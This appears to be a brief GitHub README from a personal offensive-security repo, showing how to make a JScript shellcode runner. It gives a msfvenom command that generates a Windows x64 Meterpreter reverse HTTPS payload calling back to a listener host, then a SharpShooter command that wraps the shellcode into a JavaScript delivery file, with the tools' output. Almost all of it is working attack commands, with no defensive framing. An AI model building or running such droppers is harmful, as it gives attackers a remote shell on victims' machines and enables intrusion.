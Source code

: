 creating a shellcode runner with Jscript by leveraging DotNetToJscript
generate Meterpreter reverse stager and write the raw output format to a file.

Than execute sharpshooter 



```
┌──(kali㉿kali)-[~/SharpShooter]
└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.244 LPORT=443 -f raw -o shell.tx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 649 bytes
Saved as: shell.tx
                                                                                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/SharpShooter]
└─$ sudo python2 SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.tx --output test 

       _____ __                    _____ __                __           
      / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
      \__ \/ __ \/ __ `/ ___/ __ \__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
     ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /    
    /____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/     
                         /_/                                            

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
    
[*] Written delivery payload to output/test.js
```
![image](https://github.com/VietTheBarbarian/sharpshooter-fun/assets/56415307/d272f242-8442-47f9-841b-a9222129c359)

